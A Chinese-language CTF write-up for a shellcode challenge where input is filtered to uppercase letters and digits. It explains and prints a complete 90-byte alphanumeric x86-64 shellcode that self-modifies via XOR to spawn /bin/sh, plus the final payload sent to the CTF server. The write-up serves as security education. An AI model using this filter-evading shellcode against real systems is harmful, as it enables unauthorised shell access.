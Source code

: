 # W2 shellcode revenge

## 文件分析

下载`shellcodere`, 保护全开  
ghidra分析为64位程序

## 逆向

程序将shellcode读到0x66660000处，并过滤掉所有非大写字母和数字  
这真的是新生赛吗！搓了我好几天

## 准备

先检查寄存器的值都为多少  
![reg_values](../assets/regs.png)

xor主要使用rbx，要清空它；rax和rdx都有特定值要存放，所以用rcx来存基址；
`pop rdi`, `pop rsi`都要搓出来，还有0x3b和sh字符串

程序布局：在可使用的范围内，前段为程序，后端为数据

以下是按字符反汇编解析

## Shellcode分析

```as
exec:
push rdx                         ; R
pop  rcx                         ; Y set base addr
xor  qword ptr [rcx + 0x5a], rbx ; H1YZ
xor  rbx, qword ptr [rcx + 0x5a] ; H3YZ zero out rbx
xor  bl, byte ptr [rcx + 0x49]   ; 2YI xor pivot 1
xor  byte ptr [rcx + 0x4a], bl   ; 0YJ
xor  byte ptr [rcx + 0x4e], bl   ; 0YN 2* 48 -> 1a
xor  byte ptr [rcx + 0x51], bl   ; 0YQ
xor  byte ptr [rcx + 0x59], bl   ; 0YY 2* zero out last byte
xor  bl, byte ptr [rcx + 0x49]   ; 2YI zero out bl
xor  rbx, qword ptr [rcx + 0x4a] ; H3YJ set rbx value
xor  rbx, qword ptr [rcx + 0x52] ; H3YR xor to get /bin/sh
push rbx                         ; S
push rsp                         ; T point to /bin/sh
;now bl is 2f
xor  bl, byte ptr [rcx + 0x4b]   ; 2YK xor pivot 2
xor  byte ptr [rcx + 0x38], bl   ; 0Y8 make 0x5e
push rdi                         ; W
pop  rdx                         ; Z zero out rdx
xor  byte ptr [rcx + 0x39], bl   ; 0Y9 make 0x5f
xor  al, 0x4f                    ; 4O
xor  al, 0x44                    ; 4D
xor  al, 0x30                    ; 40 make al equals to 0x3b
push rdi                         ; W
pop rsi                          ; G is xored by 0Y8; zero out rsi
pop rdi                          ; F is xored by 0Y9; point to /bin/sh
;now bl is 19
xor bl, byte ptr [rcx + 0x54]    ; 2YT xor pivot 3
xor byte ptr [rcx + 0x43], bl    ; 0YC make 0x0f
xor byte ptr [rcx + 0x44], bl    ; 0YD make 0x05
syscall                          ; OE is xored by 0YC0YD
```

```
data section:
rcx + 'E': 000 ; just padding; shrink it to get a shorter shellcode
rcx + 'H': 3   ; xor pivot 2
rcx + 'I': R   ; xor pivot 1
rcx + 'J': H607H60R ; xor part 1
rcx + 'R': 5TYY5EXR ; xor part 2
rcx + 'Z': \0  ; store rbx later
```

最后shellcode长度：**90字节**
## 踩过的坑

1. gdb在调试shellcode的时候建议用si，ni会直接运行到底
2. 网上资料可能不全，需要自己摸索，比如'40'就是自己反汇编才知道的
3. 字符间换来换去还挺麻烦的，用用下面的函数

```python
def toHex(s: str):
    ret = ''
    for c in s:
        ret += hex(ord(c))[2:]

def toChr(s: str):
    ret = ''
    for i in range(0, len(s), 2):
        ret += chr(int(s[i:i+2], 16))
```
## EXPLOIT

`nc node4.buuoj.cn 28975`

*RYH1YZH3YZ2YI0YJ0YN0YQ0YY2YIH3YJH3YRST2YK0Y8WZ0Y94O4D40WGF2YT0YC0YDOE0003RH607H60R5TYY5EXR*  
*cat flag*

## 参考资料

[short shellcode](https://blog.csdn.net/A951860555/article/details/110936441)  
[alphanumeric shellcode编写指南](https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf)  
[在线汇编/反汇编器](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)  
[好用的在线异或](http://i.goto327.top:85/Tools1/XOR.aspx)

Done.
